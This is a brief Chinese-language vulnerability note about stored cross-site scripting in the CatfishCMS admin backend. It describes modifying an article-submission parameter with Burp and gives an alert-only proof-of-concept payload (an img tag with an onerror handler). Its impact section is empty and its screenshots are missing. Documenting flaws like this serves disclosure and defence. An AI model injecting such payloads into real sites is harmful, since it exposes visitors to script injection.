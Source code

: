 CatfishCMS后台储存型xss
=======================

一、漏洞简介
------------

网站背景中的管理员可以发布包含存储XSS漏洞的文章 提交标题以抓取数据包
使用burp修改参数 浏览文章可以触发XSS

二、漏洞影响
------------

三、复现过程
------------

![](./.resource/CatfishCMS后台储存型xss/media/rId24.png)

    neiron=<img src=x onerror=alert(123)>

![](./.resource/CatfishCMS后台储存型xss/media/rId25.png)

![](./.resource/CatfishCMS后台储存型xss/media/rId26.png)
